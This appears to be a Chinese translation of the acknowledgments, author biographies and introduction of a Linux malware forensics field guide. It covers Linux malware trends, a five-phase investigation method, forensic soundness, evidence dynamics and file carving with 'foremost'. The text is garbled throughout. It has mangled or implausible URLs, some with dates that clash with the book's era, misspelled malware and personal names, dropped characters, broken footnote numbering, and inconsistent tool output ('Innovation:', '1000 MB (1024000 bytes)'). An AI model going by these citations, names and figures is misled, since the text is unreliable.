# Linux 系统恶意软件取证现场指南：数字取证现场指南

## 致谢

“致我们的兄弟姐妹——Alecia, David, Tony 和 Jennifer——你们从我们开始起就给了我们灵感、支持和动力。我们爱你们。”

Cameron 感谢许多人为为本书的完成提供的精彩支持和建议。James 和 Eoghan 找不到更好的写作伙伴来合作了；我继续被你们的才华和创造力所启发。

感谢 Syngress 编辑团队对本书的耐心和投入：Laura Colantoni, Steve Elliott 和 Benjamin Rearick。世界上最顶尖的研究人员、开发者和取证从业者帮助我们应对了旅程中遇到的许多有趣挑战。非常感谢项目成员（contact@blogspot.com）、Eric Carrera 和 Christian Blichmann (Zymantics）、Matthew Shannon (Forensic Response）、Andrew Tappert (Ratheon）、Andrew Rosen (ASR）、Thorsten Holz（波鸿-霍姆大学助理教授/http://honeyblog.org/）以及 Tark (ccso.com)。向我的项目成员表示最衷心的感谢，让我参与项目中；你们的热情和创新是独的，我很荣幸能成为这样一个优秀群体的一部分。非常感谢我在 FBI BAU 的朋友和同事；能成为团队、BTAC 和 CBAC的一员是我的荣幸——感谢你们注入动力和创造力，让我们持续看到细微之处之美。最后，我想感谢我亲爱的妻子 Adrienne 和小小的 Hobby，他们在我撰写这本书期间支持并鼓励了我，尽管这夺走了他们很多时间。你们是我的世界。

Cameron H. Malin

Eoghan 深深感谢 Cameron 和 James 不断提醒我们，读者是我们写作的原因。这个团队对这项工作投入的思考和关怀是一种鼓舞。本书系列出版以来我们应对了许多挑战，我对这些结果感到自豪。感谢 Morgan Marquis-Boire 慷慨分享她的深厚知识和才华，我一直受到她的启发。感谢 Andrew Case、Joe Sylvie 和 Andrew Tappert 分享他们在 Linux 和 Android 内存取证方面的经验。对 Mike Wooster 不断推进 Linux 的可用性、能力和安全性表示感谢和尊重。最后，感谢我的家庭让我保持初心。我对你们的爱永远是充满活力、色彩斑的。

Eoghan Casey

James 感谢他在 Stroz 的家人、朋友和同事的耐心、支持和关心。感谢 Syngress 以及在领域内与我们分享想法和才华的朋友们。感谢多年来我所结识、信任和钦佩的所有联邦执法执法人员——你们启发着我。感谢我亲爱的合作作者 Cameron 和 Eoghan，第三次确实是奇迹。

James M. Aquilina

## 特向技术编辑致以谢意

我们衷心感谢数字取证领域的巨头、非凡的技术编辑 Curtis W. Rose。你富有洞察的评论和指导使本书成为可能。

## 作者简介

**Cameron H. Malin** 是美国联邦调查局（FBI）的特任探员，分配至行为分析处网络行为分析中心，负责分析犯罪分子在计算机入侵和恶意代码事务中的行为。2010年，Malin 先生因在“鱼行动”（Operation Fish）中担任案件探员获得司法检察长卓越服务奖。2011年，他因重大的网络反间谍调查获得认可，并获得国家情报局颁发的国家反间谍奖。Malin 先生是 Honeynet 项目 南加州分会的负责人，这是一个国际非营利组织，通过研究、分析以及有关计算机和网络威胁的信息来提高互联网安全。他还是国防部（DoD）网络与信息系统分析中心（原信息技术中心，“IATAC”）以及武器系统技术与分析中心（WSTIAC）的领域专家。

Malin 先生拥有国际电子顾问协会（EC-Council）认证的伦理黑客（CEH）和认证网络防御架构师（CNDA）；SANS 学院的 GIAC 认证取调查员（GCIA）和 GIAC 认证分析师（GCFA）；以及国际信息安全认证联盟（ISC）认证的认证信息安全专业人员（CISS）。

在为 FBI 工作之前，Malin 先生曾担任罗里达州迈阿密的助理州检察官（ASA）和特别助理检察官，专门负责计算机犯罪起诉。在担任 ASA 期间，他还是乔治大学计算机欺诈调查硕士项目的助教。

Malin 先生是恶意软件取证系列丛《Malware Forensics: Investigating and Analyzing Malicious Code》以及《Windows 系统恶意软件取证实战指南》（Malware Forensics Field Guide for Windows Systems）的合著者，这些书籍由 Elsevier, Inc. 旗下 Syngress 出版。

# 关于作者

Eoghan Casey 是国际认可的数字取证和数据泄露调查专家。他撰写了基础性著作《数字证据与计算机犯罪》（Digital Evidence and Computer Crime），并创建了在全球范围内教授的智能手机取证课程。十多年来，他一直致力于事件处理和数字取证实践的发展。他曾担任国防网络安全中心（DC3）的研发团队负责人，帮助增强了其作战能力并开发了新的技术和工具。

Casey 先生帮助客户处理安全泄露，并在包括国际范围内的网络入侵在内的广泛调查中分析数字证据。在之前于 cmdLabs 的工作期间以及在 Stroz Friedberg 担任数字取证与调查总监期间，他维护着活跃的案件卷宗，并共同管理数字取证、网络犯罪调查和事件处理领域的术术运营。他曾在民事和刑事案件中作过证，并为计算机取证和网络犯罪案件提交过专家报告并准备过审判。

他曾在全球范围内就泄露调查、数字取证和网络安全等各种主题发表过主题演讲并教授过工作坊。他合著了多本技术书籍，包括《恶意软件取证》（Malware Forensics），并是《数字调查：国际数字取证与事件响应杂志》（Digital Investigation: The International Journal of Digital Forensics and Incident Response）的主编。

James M. Aquilina 作为 Stroz Friedberg LLC 的执行经理，担任管理团队的一员，领导公司的数字取证业务，并监督洛杉矶、旧金山和西雅图办事处。他监督政府机构、大型律所以及公司管理和信息系统部门在刑事、民事、监管和公司内部事务中大量的数字取证、互联网调查和电子证据发现任务，包括数据泄露、电子伪造、擦除、地图检测和其他形式的证据破坏、机密信息泄露、计算机辅助的商业秘密盗窃以及非法电子监视。他曾担任特别法官（special master）、中立专家，并受法院任命监督数字证据的取证检查。Aquilina 先生领导了公司在线欺诈和滥用业务的发展，经常就保护计算机网络免受间谍软件、侵入性软件、恶意软件和恶意代码、在线欺诈和非法活动的技术及战略方面提供咨询。他对僵尸网络、分布式拒绝攻击（DDoS）和其他网络入侵的深入了解，使能够为公司提供应对计算机欺诈和滥用事件的建议和解决方案，并加强其基础设施保护。

在加入 Stroz Friedberg 之前，Aquilina 先生曾担任加州中部地区美国检察官办公室刑事部的助理美国检察官（AUSA），他最近在该网络和知识产权部门任职。他曾担任洛杉矶电子犯罪工作组的成员以及计算机入侵工作组的主席，后者是一个跨机构的网络犯罪响应组织。作为助理美国检察官，Aquilina 先生进行并监督了对计算机入侵、勒索性拒绝服务攻击、计算机和互联网欺诈、刑事版权侵权、窃取秘密以及其他涉及使用个人身份的滥用行为的调查和起诉。通过许多著名案件，Aquilina 先生带来了美国首起针对“僵尸主地下”组织的恶意僵尸活动起诉，该组织出售其受感染的计算机大军以发动攻击和发送垃圾邮件，并利用僵尸从秘密安装广告软件中获利；他试图在首起涉及使用数字摄像摄像的刑事版权侵权案中获得陪审团的定罪；他监督了政府对“网络冲击行动”（Operation Cyberslam）的持续起诉，这是一项涉及雇佣黑客对在线业务竞争对手发动计算机攻击的国际调查；他还监督了与起诉在洛杉矶运营的当地恐怖分子小组相关的电子证据的收集和分析。

在美国检察官办公室任期间，Aquilina 先生还曾在重大威胁和恐怖主义/组织犯罪部门工作，在那里调查并审理了许多复杂案件，包括：一起涉及国税局（IRS）税务官员和公共账户的大型腐败审判；针对法国瑞士信与倒闭的 Executive Life 重组和清算相关的欺诈起诉；以及一起针对亚美尼亚组织犯罪的勒索和绑架审判。在2001年9月11日袭击发生后，Aquilina 先生帮助建立并运行了 FBI 应急行动中心的法律部门。

在从事公共服务之前，Aquilina 先生曾在纽约 Richards, Spears, Kibbe & Orb 律师事务所担任律师，专注于联邦和州刑事及监管事务中的白领犯罪工作。Aquilina 先生曾担任加州南部联邦地区法院法官 Irma E. Gonzalez 阁下的法务助理。他以优等荣誉（magna cum laude）毕业于乔治敦大学，并毕业于加州大学伯克利分校法学院，在那里他曾 Richard Erskine 学术员，并担任《加州法律评论》的文章编辑和执行委员会成员。

他目前担任 EC-Council 网络法律问题的荣誉委员会成员，该组织为全球领先的安全行业专业人士提供 CEH（认证黑客）和 CHFI（认证黑取证调查员）认证。Aquilina 先生是 Sedona 会议第 1 工作组、国际隐私专业人士协会、南加州蜜罐项目、洛杉矶刑事法院法学院以及洛杉矶县律师协会的成员。他还担任宪法权利基金会的董事会成员，该基金会是一个致力于为年轻人提供接触和理解法律及法律程序的非营利教育机构。

Aquiline 先生是广受赞誉的书籍的合著者，包括《恶意软件取证：调查与分析恶意代码》（Malware Forensics: Investigating and Analyzing Malicious Code）和《恶意软件取证 Windows 现场指南》（Malware Forensics Windows Field Guide），这两本书均由 Syngress Publishing, Elsevier Science & Technology Books 出版，详细阐述了应对危害全球私人和公共网络恶意代码事件的流程。

# 关于技术编辑

**Curtis W. Rose** 是马里兰州哥伦比亚市 Curtis W. Rose & Associates 的总裁兼创始人，该机构为商业和政府客户提供计算机取证、专家证言和培训。他是业界认可的专家，在信息安全领域拥有20多年的经验。

他是《数字取证与事件响应》（Digital Forensics and Incident Response）的合著者，并担任过许多热门信息安全书籍的技术编辑或贡献作者，包括《网络安全：完全参考》（Network Security: The Complete Reference）、《黑客工具包》（Hacker Toolkit）、《SQL Server 分析》（SQL Server Analysis）和《数据采集》（Forensic Data Acquisition）。他还发表了关于高级取证方法的白皮书，包括《利用 Linux 操作系统的 Windows 实时数据采集》（Windows Live Response Volatile Data Collection Utilizing the Linux Operating）。

# 恶意软件取证简介

自从《恶意软件：调查与分析恶意代码》出版以来，为恶意目的开发的程序数量和复杂性不断增加。最新的赛科贝威胁报告指出，2012年在线安全威胁发生了显著增长和演变。注意到日益增长的网络间谍趋势，以及恶意软件攻击者日益增加的复杂性和残忍，已知的电子邮件、Web 域名和移动恶意软件增加表明了持续的上升趋势——而对恶意软件攻击者的追踪变得越来越困难。其他杀毒软件供应商（包括 F-Secure）记录了针对移动设备（特别是安卓）和 Mac OS 的恶意软件攻击近期增加，以及由更复杂的组织化的黑客行动分子和国家赞助者发起的攻击。

过去，恶意代码根据功能和攻击向量大致（例如病毒、蠕虫或特洛伊马）分类。如今，恶意软件通常是模块化和多功能的，是一种具有多样功能和传播手段的“混合威胁”。这种恶意软件的大部分是为了日益组织化、专业化的计算机犯罪开发的。事实上，犯罪分子正广泛利用恶意软件控制计算机，并窃取人员、机密或其他专有信息以获利。在“壕沟突破行动”（Operation Trench Breach）中，数百人因使用 Zeus 等恶意软件参与数字盗窃被捕。活跃的灰色市场确保了他们的恶意软件经过专业开发，以规避当前杀毒软件的检测，从而对任何精通网络的犯罪团体保持其价值和吸引力。

## 引言

人们日益关注的是旨在破坏发电厂和其他关键基础设施的恶意软件，一些人将其称为“网络战”（cyberfare）。过去几年出现的 StuxNet 和 Duque 恶意软件完美地证明了此类攻击的潜力。这些复杂的恶意软件使攻击者能够通过访问连接到目标的可编程逻辑控制器（PLC），改变工业系统（如核反应堆）的运行。此类攻击可能导致发电厂或其他社会关键基础设施组件关机，可能对目标区域造成重大损害。

外国政府正在资助高的黑客团队以破坏军事和工业活动。对 Google 系统的入侵展示了其攻击者先进且持续的能力。这类组织严密的攻击旨在维持对组织网络的长期访问，这种基于互联网的间谍活动形式被称为“高级持续性威胁”（APT）。最近，恶意软件研究人员披露了其他网络恶意软件活动，例如“Flame”10、“Red October”11、“Gauss”12、“SPE/minifame”13、“Safe”14、“Shady RAT”15 以及“Dark Seoul”16。

> 6 http://www.symantec.com/connect/blogs/stuxnet-introduces-first-rootkit-scada-devices;
> http://www.symantec.com/connect/en/us/enterprise/media/security/whitepapers/w32_xndossier.pdf.
> 7 “E-Space 威胁”，可用于 http://www.businesswebsite.com/magazine/content/08_1/b648003221430; “中国入侵默克尔政府的核心”，可用于 http://www.timesonline.com/it/world/article232320.html.
> 8 http://googleblog.com/post/2010/01/new-approach-to-china.html.
> 9 有关 apt 的更多信息，请参阅 http://www.mandiant.com/blog/mandiant-explores-apt-1-cyber-espionage-units-releases 或 http://intelreport.com/mandiant/Mandiant/APT_Report.pdf。
> 10 http://www.secure.com/en/blog/2018/935227/The_Flame_Questions_And_Answers; http://www.pcworld.com/article/25630/researchers_identify_stuxnet_cyberespionage_malware_calle_dame
> 11 http://usa.kaspersky.com/about-us/press-connect/in-the-news/kaspersky-leads-red-october-cyber-espionage-malware; http://www.secure.com/analysis/204792625/Red_October_Detailed_Malware_1_First_Stage_of_Attack;http://www.secure.com/analysis/204792268/Red_October_Detailed_Malware_2_Second_Stage_of_Attack;http://www.secure.com/analysis/20479264/Red_October_Detailed_Malware_3_Second_Stage_of_Attack;http://www.secure.com/analysis/204792273/Red_October_Detailed_Malware_4_Second_Stage_of_Attack.
> 13 http://www.networkworld.com/community/blog/vicious-little-sibling-minifame-extremely-targeted-espionage-malware.
> 14 http://www.definitews.com/news/2013/05/cyber-espionage-campaign-uses-professionally-made-malware-j2.html.
> 15 http://www.washington.com/national-security/report-identifies-widespread-cyber-spying/2011/07/29/GQAOTumql_story.html.
> 16 http://blogs.mcafee.com/dissecting-operation-try-espionage-in-south-korea; http://www.mcafee.com/resources/white-papers/dissecting-operation.pdf; http://infoworld.com/data-security/mcafee-uncovers-massive-cyberespionage-campaign-against-south-korea.


此外，诸像 `AntiSec`、`Anonymous` 和 `LuzSec` 等安全组织正在利用各种技术和工具获取计算机系统的未经授权访问。17 使用恶意软件实施犯罪和发动网络攻击正迫使数字调查人员使用原本属于杀毒软件供应商和安全研究人员的恶意软件分析工具。无论是为了支持移动、云还是基础设施需求，如今的大多数公司正转向 Linux 和其他开源平台。然而，尽管恶意软件开发者经常由于市场份额和操作系统普及率而针对 Windows 平台，但 Linux 系统并非对恶意软件免疫。由于 Linux 多年来保持了许多相同的功能和组件，rootkit 自 2004 年存在至今仍被使用。例如，`Adore` rootkit、木马化的二进制文件和 SSH 服务器仍未被 Linux 工具和杀毒软件检测到。此外，在过去的几年里出现了许多新的恶意软件变体——后门、rootkit 和混合威胁——针对 Linux。僵尸网络的出现导致了对具有 SSH 凭据系统的暴力破解访问19。在 2012 年和 2013 年，针对 Linux 服务器的新颖攻击揭示了利用“水坑攻击”`watering hole` 和“驱动下载”`drive-by-download` 方法使用的 Linux 恶意软件——例如 `Linux/Chapra^21`、`Linux/Dclock^22` 和 `DarkLee^23`——导致了其他恶意载荷的感染。

> ^17 http://money.cnn.com/2012/09/04/technology/malware-cyber-attacks/(generally); http://www.fsec.com/webback/archive/00002566_index.html (Anonymous); http://hakedsecurity.sophos.com/2012/10/luzsec-hackprojects/(LuzSec)

18 http://www.theregister.com/2013/04/04/linux_boss_0/

19 http://www.theregister.com/2007/10/03/edge_paypal/; http://www.theregister.com/uk/2009/09/12/malicious_botnet/

20 http://www.theregister.com/2010/08/12/server_based_botnet/

21 http://www.welivessecurity.com/2012/02/18/malicious-apache-module-for-content-injection-linux-chapra/; http://news.techworld.com/security/341700/linux-servers-targeted-by-new-drive-by-attack-.

22 http://www.welivessecurity.com/2013/04/26/linux-clock-new-backdoor-in-the-wild/backhole/; http://www.welivessecurity.com/2013/05/07/linux-clock-malware-light-and-nginx-web-servers-also-affected; http://tools.cisco.com/security/center/viewalert.x?alert=29133

23 https://www.securelist.com/en/blog/2018/019335/; 和 http://www.crowdstrike.com/blog/infracting-linux-rootkit/index.html.

24 http://www.pcworld.com/article/204361/darkleech-malware-undertakes-ransomware

由于 SSH 协议在远程数据管理中的流行，网络继续开发新的 SSH 恶意软件。2013 年流行的 Windows 恶意软件启发了攻击者开发跨平台变体，以最大化感染功能，例如基于 Java 的木马 `Trojan.Jnanabor27` 和 `Boanan Trojan28` 在 2011 年攻击了 Linux 和 Macintosh 系统，以及 2012 年跨平台的 `Wirenet Trojan29` 和哥伦比亚运输网站恶意软件30。与此同时，随着 Linux 桌面用户市场的增长，恶意软件攻击者最近利用名为“Of Thief”的木马恶意软件锁定了这一目标群体。

除了服务器和桌面平台外，基于 Linux 的恶意软件还用于攻击路由器和调制器。32 2009 年的研究人员感染了运行在 MIPS 处理器上的 Linux 网络应用程序，导致受感染的系统加入僵尸网络。33

也许最令人关注的是针对 Linux 系统的协同、针对性攻击。多年来，组织化的攻击者群体一直在渗透 Linux 系统，显然是为了窃取信息的唯一目的。这些攻击者中的使用了先进的恶意软件，旨在破坏安全措施，如用户身份验证、防火墙、入侵检测系统和网络漏洞扫描器。例如，与其使用自己的列表并可能触发安全警报，许多 Linux rootkit 感染/劫持了正在运行的服务。此外，这些 rootkit 会检查入连接是否具有特殊的“后门”特征以进行判断。

+ 25 http://www.welivesservice.com/2013/01/24/linux-ssh-door-a-backdoored-ssh-daemon-that-self-passwords.

26 http://contagiodump.com/blogpost/2013/03/31-linux_bot_vulnerabilities/

27 http://theregister.co.uk/2011/01/19/malware_vulnerabilities/

28 http://madesecurity.com/for/2010/10/28-cross-platform-targets-facebook/

29 http://www.forbes.com/anthonykosner/2012/08/31-new-trojan-backdoored-malware-target-sm-os-and-linux-leads-password-and-keywords-wirenet-trojan/ http://www.techcrew.com/security/337-8804/linux-users-targeted-for-password/hotdatward.com/News/Linux-A-Target-Rich-Environment-for-Malware-After-All-Wirenet-Trojan-in-the-Wild/

30 http://www.nbcnews.com/technology/web-based-malware-determines-your-os-then-strikes

31 http://www.techpublic.com/blog/linux-and-open-source/hand-of-thief-malware-can-be-dangerous-if-you-install-it/

32 http://www.zdnet.com/blog/ltp/psybot-worm-infects-linux-netgear-home-routers-modems/15197,

33 http://www.malwareline.com/Online/News/Psybot-Trojan-Attacks-Linux.

## 引言

远程连接是否实际上属于入侵者，这会增加使用网络漏洞扫描器检测后门的难性。恶意应用程序还具有与命令与控制 `C2` 服务器通信的能力，并能从受侵害的 Linux 系统中外泄数据。

例如，`Phalanx` 根内核于 2008 年被美国计算机应急响应小组 `CERT` 发现并进入世面。³⁴ 这种 `Phalanx` 的变体曾通过使用盗取的 SSH 密钥访问 Linux 系统，并进一步利用内核漏洞获取 root 权限。在获得 root 权限后，攻击者安装了 `Phalanx2`，并使用 `sshgrab.py` 等工具捕获感染系统上的 SSH 密钥和用户密码，并将窃取的凭据 `通常还带有其他信息` 外泄出去，以维持攻击循环。³⁵ 2011 年，`Phalanx` 在被攻击者用于破坏主要的开源项目代码库后再次登上新闻头条。³⁶

这些针对 Linux 系统的恶意软件事件趋势，结合现代 Linux 系统允许实施安全措施的能力，使得事件响应和取证成为任何使用 Linux 系统的组织风险管理策略中的关键组成。

本现场指南旨在为从业人员提供应对这种日益严重的 Linux 计算机系统攻击所需的知识、技能和工具。

## 如何使用本书

- 本书旨在在实地调查时作为战术参考。
- 本现场指南旨在帮助数字调查人员识别 Linux 计算机系统上的……检查恶意软件以揭示其功能和目的，并确定作为取证学科的高级恶意软件分析。书中提供了特定的方法论，并讨论了法律考量，以便数字调查人员能够以可靠、可重复、可辩护且彻底的方式开展这项工作。

> ³⁴ http://www.us-cert.gov/current/archive/2008/08/27/archive.html#ssh_key_based_attacks; http://www.theregister.co.uk/2008/08/27/ssh_key_attacks_warning/; http://www.techrepublic.com/blog/opensource/linux-hit-with-phalanx-2-is-a-linux-double-standard-when-it-comes-to-security/261.
> ³⁵ 例如，https://lists.purdue.edu/piermail/steam-advisory-2008-August/00015.html.
> ³⁶ http://www.theregister.co.uk/2011/08/31/linux_kernel_security_breach/; http://threatpost.com/en/blogs/kernellog-linux-site-compromised-083111; http://threatpost.com/en/blogs/kernellog-attackers-have-slipped-091111; http://www.informationweek.com/security/attacks/linux-dataformation-malware-attack/23601225; http://www.theregister.co.uk/2011/10/04/linux_repos

### 引言

与《恶意软件取证：调查与分析恶意代码》不同，后者在全文中使用实际案例来演示技术和相关工具，本现场指南力求兼顾战术性和实用性，采用简洁的大纲格式结构，以便在实地使用，并通过不同的图标标记指向补充组件和在线资源的交叉引用，供实地及其他人员使用。

### 补充组件

- 本现场指南中使用的补充组件包括：
- 现场访谈问题：一个组织有序且详细的访谈问题库及表格，可在响应恶意代码事件时使用。
- 现场笔记：一个结构化且详细的笔记解决方案，在实地或实验室环境中作为指南和提醒清单。
- 应避免的陷阱：常见错误的简明列表以及关于如何避免这些错误的描述。
- 工具箱：供数字调查人员学习与相应正文章节讨论的主题相关的额外工具的资源。工具箱图标 `扳子和锤子` 用于通知读者，工具箱附录以及本书的配套网站 `www.malwarefieldguide.com` 上提供了额外的工具信息。
- 精选读物：一份与章节涵盖的主题相关的相关实质性阅读材料列表。

### 调查方法

> 当在系统上发现恶意软件时，组织化的方法论、严谨的分析、稳定的文档记录以及对证据变化的关注，其重要性超过了调查时面临的任何时间压力。

#### 组织的方法论

- 本现场指南处理恶意软件事件的总体方法将调查分为五个阶段：
  第一阶段：易失数据的取证预防和检查 `第 1 章`
  第二阶段：内存检查 `第 2 章`
  第三阶段：取证分析：硬盘检查 `第 3 章`
  第四阶段：未知文件的分析 `第 5 章`
  第五阶段：恶意软件样本的动态和静态分析 `第 6 章`
  在每个阶段中，都强调了正式的方法论和目标，以帮助数字调查人员重建围绕恶意软件感染事件的生动画面，并对恶意软件本身获得详细的理解。

### 引言

书中概述的方法论并非供盲目遵循的清单；数字调查人员必须始终对观察到的内容应用批判性思维并进行相应调整。
- 只要可行，涉及恶意软件的调查应扩展到单台受侵害计算机之外，因为恶意代码通常是由网络放置在计算机上的，且大多数现代恶意软件都具有网络相关功能。发现其他证据来源，例如恶意软件连接以下载组件或指令的互联网服务器，可以提供关于恶意软件如何进入计算机以及在安装后做了什么的有用信息。
- 除了包含受侵害痕迹的系统外，其他网络和数据源也可能对你的调查非常有价值。例如，将受侵害系统的可用备份带与当前状态进行比较，可能会发现恶意软件的额外行为特征、留下的工具或包含外泄数据的可恢复文件。还要考虑来自防病毒代理的集中日志、`Tripwire` 等系统完整性工具的报告以及网络、应用程序和数据库日志。
- 网络取证在恶意软件事件中可以发挥关键作用，但这一广泛的主题是本现场的范围。作者早期的案例之一⁷ 涵盖了在网络上收集和利用各种来源的技术，这在调查恶意软件事件时非常有用，包括入侵检测系统、`NetFlow` 日志和网络流量显示特定的外部 IP 地址以及存储的文件名，尽管可能在发现问题之前，调查期间实施的网络日志可能会捕捉到正在进行的活动证据。
- 记住，经过良好采访的网络管理员、系统所有者计算机用户通常有助于构建实际发生情况的最佳。
- 最后，数字调查人员经常被要求出于调查目的进行恶意软件分析，这可能导致受寻求民事或刑事救济，确保发现的可靠性和有效意味着符合通常复杂的法律和监管环境。跨平台、云和 `BYOD` 自带设备 环境的出现增加了复杂性，因为调查技术和策略不仅要适应不断变化的技术，还要适应公司、个人和第三方之间复杂的所有权问题。`第 4 章` 虽然不是为了获取咨询和良好的法律建议，但它探讨了这些关注，并讨论了可能规范在多环境下恶意软件取证期间发现的数据和数字制品访问、保护、收集和移动的法律要求或限制。

⁷ Casey, E. `2011`. Digital Evidence and Computer Crime, 3rd ed. London: Academic Press.

# 取证学健全性 Forensic Soundness

从活动系统中收集数据的行为可能会导致数字调查人员需要解释的变化，考虑到其对其他数字证据的影响。
- 例如，从可移动介质使用 `Helix3 Pro³⁸` 等工具在加载到主内存时会更改易失数据，并在取证系统上创建或修改文件。
- 同样，使用远程工具必然建立网络连接，在内存中执行指令，并对取证系统进行其他更改。

纯洁者认为，取证获取不应以任何方式改变原始证据。然而，像 DNA 分析等传统取证学科表明，原始证据并不需要保持原封不动。在收集生物材料样本时，该过程通常会刮擦或涂抹原始证据。对取证样本的取证分析会进一步改变原始证据，因为 DNA 测试具有破坏性。尽管在保存和处理过程中发生了变化，这些方法在取证学上仍然是健全的，且证据经常在法律、监管或行政程序中被接纳。

某些法院认为易失数据是可发现的，因此要求数字调查人员保留活动系统上的数据。在 *Columbia Pictures Indus. v. Bunnell* 一案中，法院认为 Web 服务器上的 RAM 可能包含相关的日志数据，因此属于可发现信息和义务的范围。

## 文档记录 Documentation

- 取证健全性的关键之一是文档记录。
- 一个可靠的案件建立在支持性文档的基础上，这些文档报告了证据的来源以及如何处理的。
- 从取证角度来看，获取过程应尽可能地改变原始证据，任何更改都应在最终分析结果的背景下进行记录和评估。
- 只要获取过程保留了原始数据的完整且准确的表示，并且该表示的真实性和完整性可以验证，则该获取通常被认为在取证上是健全的。

记录调查期间采取的步骤以及结果将使他人能够重复或评估该分析。

# 引言 Introduction

- 请记住，同步笔记通常在以后被引用，以帮助数字调查人员回忆发生了什么、进行了哪些工作以及采访了谁等其他信息。
- 常见的文档记录形式包括截图、捕获的网络流量、分析工具的输出和笔记。
- 在保留易失数据时，保留了日期和时间、使用了哪些工具以及所有输出的计算 `MD5` 值。
- 每当处理计算机时，记录计算机的日期和时间并与可靠的时间源进行比较，以评估与获取数据相关的日期时间戳信息的准确性至关重要。

## 证据动力学 Evidence Dynamics

遗憾的是，数字调查人员很少能面对完美的数字犯罪现场。当恶意软件或攻击者通过删除日志、覆盖文件或加密定罪数据来故意破坏证据时。通常，数字调查人员仅在受害者采取初步补救措施之后才被召来响应事件，而在过程中，受害者已经销毁了关键证据，更糟糕的是，通过引入敌对程序加剧了系统的损坏。

这种现象在数字取证中并非独有。暴力犯罪调查人员经常发现攻击者试图破坏证据，或者急救响应人员在试图复苏受害者时干扰了犯罪现场。这类情况具有足够的复杂性，足以为其命名——证据动力学。

证据动力学是指在证据转换到案件审判期间，任何改变、移动位置、遮掩或消除证据的影响，无论其意图如何。
- 证据动力学在恶意软件事件响应中特别受到关注，因为内存中通常存在关键证据，如果不及时妥善保存，可能会丢失。
- 数字调查人员必须面对这样一个现实：他们很少有机会以原始状态检查数字犯罪现场，并应该预料到某些异常。
- 证据动力学造成了调查和法律挑战，使得确定发生了什么变得困难，也使得证明证据的真实性和可靠性变得困难。
- 数字调查人员在不知道证据如何被更改的情况下得出的任何结论都可能是错误的、在法庭上受到批评，或误导调查。

# 引言 Introduction

- 本现场指南中提供的方法论和法律讨论旨在使用可以与入侵者使用的类似工具区分开来的工具，在从活动系统收集易失数据时，尽可能地减少证据动力学。


## 恶意软件调查中的取证分析 (Forensic Analysis in Malware Investigations)

> 恶意软件调查通常涉及对易失数据的保存和检查；删除文件的恢复；以及其他时间性、功能性和相关的计算机取证分析。

## 易失数据的保存与检查 (Preservation and Examination of Volatile Data)

涉及恶意代码的调查严重依赖于易失数据的取证保存。由于操作可疑计算机通常会更改系统，因此必须小心地减少对系统的更改；收集所有易失数据（又称易失性顺序），在 RFC 3227：证据收集与存档指南中进行了详细说明；¹并彻底记录所采取的所有操作。

从技术上讲，从活动系统中收集的某些信息是非易失的。提供以下子类以澄清从活动系统收集内容的相对重要性。

- 第 1 级易失数据 (Tier 1 Volatile Data)：关键系统细节为调查人员提供了有关系统如何被入侵以及入侵性质的见解。例如已登录用户、活跃的网络连接和系统上运行的进程。
- 第 2 级易失数据 (Tier 2 Volatile Data)：瞬时信息虽然对调查有利并能进一步说明入侵和感染的性质和目的，但对于识别系统状态和细节至关重要。此类数据的示例包括计划任务和剪贴板内容。
- 第 1 级非易失数据 (Tier 1 Nonvolatile Data)：显示目标系统的状态、设置和配置，可能为系统或网络被入侵和感染的方法提供线索。第 1 级非易失数据的示例包括配置设置和审计策略。
- 第 2 级非易失数据 (Tier 2 Nonvolatile Data)：提供历史信息和背景，但对于系统状态、设置或配置分析至关重要。示例包括系统日志和 Web 浏览器历史。

Linux 系统上保存和检查易失数据的当前最佳实践和相关工具在第 1 章和第 2 章中介绍。

⁴¹ http://www.faqs.org/rfc3227.

# 引言 (Introduction)

## 恢复删除的文件 (Recovering Deleted Files)

特殊的取证工具被用于恢复在系统中引用的删除文件。也可以从空空间挽救不再被系统引用的执行文件。从空空间挽救执行文件的最有效工具之一是 `foremost`，如图 1.1 所示，使用“t”选项，而不是简单的文件头。

```
Foremost version 1.5 by June Kornblum, Kris Kendall, and Nick Mikus
Foremost Started at Jan 22 05:18:19 2008
Innovation: foremost -t exe,dll host3-diskimage.mp
Output directory: /examination/output
Configuration file: /user/local/etc/foremost.conf
File: host3-diskimage.mp
Start: Jan 22 05:18:19 2008
Length: 1000 MB (1024000 bytes)
Num | Name | Size | File Offset | Comment
1 | 00001509.exe | 58 KB | 772861 | 09/13/2007
2 | 00002965.dll | 393 KB | 1518333 | 01/02/2007
3 | 00003781.exe | 517 KB | 1936513 | 08/25/2006
4 | 00004837.dll | 106 KB | 2476979 | 06/20/2003
5 | 00005077.dll | 17 KB | 2599677 | 06/20/2003
6 | 00005133.exe | 17 KB | 2626819 | 11/30/1999
7 | 00005197.dmp | 68 KB | 2661117 | 06/20/2003
```

> FIGURE 1.1-使用 `foremost` 从空空间中提取执行文件

## 其他考虑的工具 (Other Tools to Consider)

数据关心工具

`DataLife`--http://datalife.software.informer.com/

`Scalpel`--http://www.digitalforensicsolutions.com/Scalpel/

`PhotoRec`--http://www.cgsecurity.org/wiki/PhotoRec

## 时间性、功能性和关系分析 (Temporal, Functional, and Relational Analysis)

取证分析的主要目标之一是重建犯罪周围的事件。重建的三种常用分析技术是时间性、功能性和关系分析。最常见的时间分析形式是时间线，但由于簇上的时间信息如此丰富，分析这些信息的不同方法仅限于我们的想象力和现有工具。



图 1.2- 使用 Live View 对 Windows XP 系统进行取证复制并在 VMware 中启动。

功能分析的目标是理解在犯罪环境中可以执行哪些操作，以及恶意软件在环境中的行为（而不是它*能够*做什么）。

- 在进行功能分析时，以理解特定恶意软件在受感染系统上的行为的一种有效方法是使用如 `Live View`^42 等工具将取证副本加载到虚拟环境中。图 I2 显示了如何使用 `Live View` 准备并加载取证镜像到虚拟环境中。

关联分析涉及研究恶意软件组件之间如何相互作用，以及涉及恶意软件事件的系统之间如何相互关联。

> ^42 有关 Live View 的更多信息，请访问 http://liveview.sourceforge.net。

